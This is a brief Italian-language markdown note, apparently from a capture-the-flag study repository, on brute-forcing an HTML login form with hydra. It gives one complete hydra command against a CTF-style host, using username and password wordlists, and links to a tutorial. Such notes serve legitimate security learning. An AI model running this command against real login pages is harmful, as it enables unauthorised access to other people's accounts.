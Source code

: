 # hydra

## attacco a forza bruta di un form HTML

```
hydra app.tan.ctfio.com http-form-post "/:username=^USER^&password=^PASS^:Invalid" -L usernames.txt -P passwords.txt -t 5 -w 6
```

# link-o-grafia
- https://www.html.it/articoli/attacco-brute-force-di-un-form-con-hydra/
